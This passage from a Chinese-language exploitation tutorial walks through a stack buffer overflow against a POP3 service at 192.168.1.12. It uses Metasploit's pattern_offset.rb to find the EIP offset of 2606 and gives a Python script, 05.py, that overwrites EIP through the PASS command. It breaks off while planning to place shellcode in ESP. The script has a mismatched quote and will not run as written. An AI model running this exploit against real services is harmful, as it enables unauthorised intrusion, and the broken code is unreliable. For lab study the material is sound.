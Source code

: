 再次发送数据，程序崩溃，得到 EIP 寄存器中的数值 `39 69 44 38`
计算机和人不一样，它在寄存器中所存储的数据的顺序是从高位向地位的，所以转换为人类的可读顺序就是 `38 44 69 39`，然后t通过对照 ASCII 码表，我们可以得到其确切的信息。

```
十六进制:38 44 69 39
ASCII:8 D i 9 
```

进一步执行 `exploit` 目录下的 `pattern_offset.rb` 文件便可以得到 `39 69 44 38` 在唯一字符串中的精准偏移量:

```
root@kali:/usr/share/metasploit-framework/tools/exploit# ./pattern_offset.rb 39694438
[*] Exact match at offset 2606
```

我们得到了溢出的位置，即是程序是从 2606 这个位置开始崩溃的，但是为了再次验证这个结果可靠性，我们再次对 `03.py` 脚本进行修改，让其先发送 2606 个 `A` ，再发送四个 `B`，接着发送20个 `C`，然后去观察 `Dubugger` 调试工具中的 `EIP` 寄存器是否会被写入4个 `B`?

##### 05.py

```
#!/usr/bin/python
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
buffer = "A"*2606 + "B"*4 + "C"*20
try:
    print "\nSending evil buffer..."
    s.connect('192.168.1.12", 110)
    data = s.recv(1024)
    s.send('USER admin' + '\r\n')
    data = s.recv(1024)
    s.send('PASS ' + buffer + '\r\n')
    print "\nDone!."
except:
    print "Could not connect to POP3"
```

我们发现，得到结果和我们预想的一样，程序崩溃后，`EIP` 被填满了 `424242` [ B 对应的 ASCII 码是 42]，同时 `ESP` 被填满了20个 `C`,如此，我们知道了，程序确是 2606 这个位置发生了溢出，而当溢出后我们便可以从这位置开始写入任意 `指令` 了。

> 潘多拉的魔盒已开，我要进去看看另一个世界的样子

---
###  0x03 模糊测试(Fuzzing)

---
#### 思路
我们已经得到了 `EIP` 的溢出地址，而下一步我们需要将 `EIP` 修改为 shellcode 代码的内存地址，从而将 shellcode 写入到该地址空间，当程序读取 `EIP` 寄存器数值时，将跳转到 shellcode 代码段并执行。


---
#### 寻找可存放 shellcode 的内存空间
通过之前的操作，我们发现原来 `ESP` 寄存器也是可以被修改的，那么，现在尝试将 `ESP` 作为 shellcode 的存放空间。
